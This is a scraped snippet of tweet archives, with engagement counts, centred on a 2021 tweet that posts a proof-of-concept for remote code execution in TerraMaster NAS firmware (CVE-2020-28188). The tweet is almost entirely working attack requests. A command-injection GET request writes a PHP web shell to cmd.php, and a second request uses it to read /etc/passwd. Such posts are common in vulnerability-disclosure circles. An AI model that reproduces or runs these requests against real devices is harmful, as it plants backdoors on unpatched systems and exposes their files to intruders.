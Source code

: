 <td><img src="pictures/89c2d1cf18a195141b4057a5c56f3b35817285d5893300335ea816063ed465fa.jpg" alt="89c2d1cf18a195141b4057a5c56f3b35817285d5893300335ea816063ed465fa.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>95</code></td>
<td>Favorites: <code>237</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1360538195532730370 _at 2021-02-13, 10:35:58_**
<blockquote>
RCE TerraMaster CVE-2020-28188  
V4.1.30/4.2.06

POC: 
GET /include/makecvs.php?Event=http|echo "&lt;?php echo(passthru(\$_GET['cmd']));?&gt;" &gt;cmd.php|

GET /cmd.php?cmd=cat%20/etc/passwd
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---